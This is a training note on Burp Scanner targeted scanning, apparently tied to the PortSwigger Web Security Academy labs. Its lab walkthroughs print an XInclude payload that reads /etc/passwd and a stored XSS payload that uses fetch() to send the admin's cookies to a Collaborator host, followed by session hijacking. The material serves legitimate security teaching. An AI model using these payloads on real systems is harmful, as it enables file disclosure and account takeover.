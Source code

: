### Using Burp Scanner during manual testing
### Scanning a specific request
When you come across an interesting function or behavior, your first instinct may be to send the relevant requests to Repeater or Intruder and investigate further. But it's often beneficial to hand the request to Burp Scanner as well. It can get to work on the more repetitive aspects of testing while you put your skills to better use elsewhere.

If you right-click on a request and select `Do active scan`, Burp Scanner will use its default configuration to audit only this request. 

This may not catch every last vulnerability, but it could potentially flag things up in seconds that could otherwise have taken hours to find. It may also help you to rule out certain attacks almost immediately. You can still perform more targeted testing using Burp's manual tools, but you'll be able to focus your efforts on specific inputs and a narrower range of potential vulnerabilities.

Even if you already use Burp Scanner to run a general crawl and audit of new targets, switching to this more targeted approach to auditing can massively reduce your overall scan time. 

### PRACTITIONER Lab: Discovering vulnerabilities quickly with targeted scanning
There's a request:
```bash
POST /product/stock HTTP/2
Host: 0a55007204e9ab888040eeb200ee00be.web-security-academy.net

productId=1&storeId=1
```

We do active scan on it and we see that it is vulnerable to xxe. Burp sent this request:
```bash
POST /product/stock HTTP/2
Host: 0a55007204e9ab888040eeb200ee00be.web-security-academy.net

productId=%3ccyx%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20href%3d%22http%3a%2f%2f7z7tw6cnc9etmx00co3x1l3ap1vujl7mvei46t.oastify.com%2ffoo%22%2f%3e%3c%2fcyx%3e&storeId=1
```
Which makes a request to an external site but we need to get /etc/passwd file so we change the req body to the following:
```bash
productId=<cyx+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></cyx>&storeId=1
```
In the response we get:
```bash
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2338

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

### Scanning non-standard data structures
As you're free to define insertion points in arbitrary positions, you can also target a specific substring within a value. Among other things, this can be useful for scanning non-standard data structures.

When dealing with common formats, such as JSON, Burp Scanner is able to parse the data and place payloads in the correct positions without breaking the structure. However, consider a parameter that looks something like this:
```bash
user=048857-carlos
```
Using our intuition, we can take a guess that this will be treated as two distinct values by the back-end: an ID of some kind and what appears to be a username, separated by a hyphen. However, Burp Scanner will treat this all as a single value. As a result, it will just place payloads at the end of the parameter, or replace the value entirely.

To help scan non-standard data structures, you can scan a single part of a parameter. In this example you may want to target carlos. You can highlight carlos in the message editor, then right-click and select `Scan selected insertion point`. 

### PRACTITIONER Lab: Scanning non-standard data structures
Official lab's solution:
- Log in to your account with the provided credentials.
- In Burp, go to the Proxy > HTTP history tab.
- Find the GET /my-account?id=wiener request, which contains your new authenticated session cookie.
- Study the session cookie and notice that it contains your username in cleartext, followed by a token of some kind. These are separated by a colon, which suggests that the application may treat the cookie value as two distinct inputs.
- Select the first part of the session cookie, the cleartext wiener.
- Right-click and select `Scan selected insertion point`, then click OK.
- Go to the Dashboard and wait for the scan to complete.

Approximately one minute after the scan starts, notice that Burp Scanner reports a Cross-site scripting (stored) issue. It has detected this by triggering an interaction with the Burp Collaborator server. 

> Note:
>
> The delay in reporting the issue is due to the polling interval. By default, Burp polls the Burp Collaborator server for new interactions every minute. 

Steal the admin user's cookies
- In the Dashboard, select the identified issue.
- In the lower panel, open the Request tab. This contains the request that Burp Scanner used to identify the issue.
- Send the request to Burp Repeater.
- Go to the Collaborator tab and click Copy to clipboard. A new Burp Collaborator payload is saved to your clipboard.
- Go to the Repeater tab and use the Inspector to view the cookie in its decoded form.
- Using the Collaborator payload you just copied, replace the proof-of-concept that Burp Scanner used with an exploit that exfiltrates the victim's cookies. For example: 
```bash
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID
```
Note that you need to preserve the second part of the cookie containing your session ID. 

- Click Apply changes, and then click Send.
- Go back to the Collaborator tab. After approximately one minute, click Poll now. Notice that the Collaborator server has received new DNS and HTTP interactions.
- Select one of the HTTP interactions.
- On the Request to Collaborator tab, notice that the path of the request contains the admin user's cookies. 

Use the admin user's cookie to access the admin panel
- Copy the admin user's session cookie.
- Go to Burp's browser and open the DevTools menu.
- Go to the Application tab and select Cookies.
- Replace your session cookie with the admin user's session cookie, and refresh the page.
- Access the admin panel and delete carlos to solve the lab.

### Note:
You can also use Intruder to define multiple insertion points. In the example above, you can define insertion points for 048857 and carlos, then right-click and select `Scan defined insertion points`. 
